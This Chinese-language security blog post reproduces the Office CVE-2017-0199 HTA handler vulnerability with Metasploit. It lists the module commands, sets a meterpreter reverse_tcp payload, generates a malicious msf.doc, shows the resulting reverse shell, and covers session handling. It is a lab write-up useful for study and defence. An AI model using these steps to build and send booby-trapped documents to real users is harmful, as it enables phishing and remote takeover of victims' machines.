 Title:office漏洞CVE-2017-0199复现：HTA Handler Vulnerability（二）
Date: 2017-12-22 10:20
Category: 漏洞实践
Tags: office,漏洞,钓鱼
Slug: 
Authors: bit4
Summary: HTA Handler Vulnerability



上一篇已经一步一步手动复现了该漏洞，也弄清楚了一些小的疑问，本篇将使用metasploit进行复现。

### 0x0、metasploit的复现过程

```
msfupdate
msfconsole
search CVE-2017-0199
```

如果更新后找不到模块，可以直接到github上下载

https://github.com/rapid7/metasploit-framework/issues/8220

https://github.com/rapid7/metasploit-framework/pull/8254

![msf_search](img/CVE-2017-0199-msf/msf_search.png)

而后加载该模块，并且设置各项参数，比如payload等。

```
use exploit/windows/fileformat/office_word_hta
set payload windows/meterpreter/reverse_tcp
show options
run
```

![msf_options](img/CVE-2017-0199-msf/msf_run.png)

成功生成了恶意文件并监听4444端口之后，我们就可以保存msf.doc文件到本地并执行了。

```
新开一个shell然后执行
sz  /root/.msf4/local/msf.doc
```

![success](img/CVE-2017-0199-msf/success.png)

可以看到成功反弹了shell。注意，要想成功反弹shell，需要保证监听服务器和webdav服务器在运行msf.doc的主机上都可以正常访问才行。

### 0x1、关于metasploit

1. 一个监听端口可以接收多个反弹会话的。

2. sessions的操作，当前session到后台运行 `background` , 进入某个session：session session_ID

   ![session_operation](img/CVE-2017-0199-msf/session_operation.png)

3. jobs的操作，将某个job调用到前台：use exploit/xxx/xxx；将当前job调到后台：back ；杀死某个job：kill job_id

   ![job_operation](img/CVE-2017-0199-msf/job_operation.png)

   ![kill_job](img/CVE-2017-0199-msf/kill_job.png)

4. 有一个小坑：阿里云的VPS（ECS）上，所有网卡上的IP地址都是内网地址，没有外网地址（应该是有映射机制，当访问外网地址http://外网IP:8080/default.hta 会被映射到内网地址http://内网IP:8080/default.hta，验证过的），而msf绑定SRVHOSR:SRVPORT的时候似乎是根据网络来的，所以就无法绑定外网地址，上面的例子里，就无法将HTA的URL向外网开放。有前面说的映射机制，应该也能访问到才对啊，但问题是生成的msf.doc文件中，写死了要请求的URL（即内网的URL，尝试了手动更新，也未成功）。只好换个vps进行实验了。